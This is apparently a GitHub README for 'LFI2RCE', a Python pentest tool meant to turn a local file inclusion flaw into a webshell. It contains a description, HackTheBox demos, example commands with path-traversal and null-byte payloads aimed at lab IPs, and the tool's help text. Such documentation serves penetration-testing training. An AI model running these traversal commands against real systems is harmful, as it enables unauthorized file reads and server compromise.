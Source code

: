 LFI2RCE
====

## Overview
LFI to RCE tool.
## Description
This tool is used to exploit an LFI vulnerability to obtain a Webshell.
If you give a vulnerable URL to LFI, it will try LFI of a common file.
It does not have autopwn function, so it can be used in OSCP Exam.  
It is forbidden to use it for anything other than penetration testing.
## Demo
#### HackTheBox Poison.
![LFI-Poison](https://user-images.githubusercontent.com/56021519/81492511-44e78600-92d3-11ea-9ce5-1aade0b48f16.gif)
#### HackTheBox Beep.
![LFI-Beep](https://user-images.githubusercontent.com/56021519/81493157-110f5f00-92d9-11ea-9def-69563a7f7ded.gif)
## Example
```txt
root@kali:/# python lfi2rce.py --linux --username charix 10.10.10.84 /browse.php?file=../../../../../..  --error "failed to open stream" -v
```
```txt
root@kali:/# python lfi2rce.py --ssl --dir-file LFI-FD-check.txt 10.10.10.7 /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../.. -v --nullbyte -o beep-files
```
## Requirement
```txt
root@kali:/# pip3 install requests
```
## Usage
```txt
root@kali:/# python lfi2rce.py -h
                    _     _____ ___ ____  ____   ____ _____  
                   | |   |  ___|_ _|___ \|  _ \ / ___| ____| 
                   | |   | |_   | |  __) | |_) | |   |  _|   
                   | |___|  _|  | | / __/|  _ <| |___| |___  
                   |_____|_|   |___|_____|_| \_\____|_____| 
usage: lfi2rce.py [-h] [--nullbyte] [--ssl] [--dir-file DIR_FILE] [--windows]
                  [--linux] [--username USERNAME] [--debug] [--error ERROR]
                  [-p PORT] [-v] [-k] [-o OUTDIR] [-s]
                  host path

brute force common file

positional arguments:
  host                  IP address to scan. Example: 127.0.0.1
  path                  Local file inclusion path. Example:
                        /browser.php?file=/../../../../..

optional arguments:
  -h, --help            show this help message and exit
  --nullbyte            terminate the url with null byte
  --ssl                 Use SSL for connection (https)
  --dir-file DIR_FILE   Input file for directory brute force
  --windows             Windows server
  --linux               linux server
  --username USERNAME   enter username if you know.
  --debug               Complete setup without running against host
  --error ERROR         Enter Error Messgage. Example: "No such file or
                        directory" "failed to open stream"
  -p PORT, --port PORT  Target port. Default: http 80 https 443
  -v, --verbose         Verbose output
  -k, --verify-ssl      Verify SSL certificates
  -o OUTDIR, --outdir OUTDIR
                        Write output to this directory
  -s, --show-output     show results to screen
root@kali:/# 
```
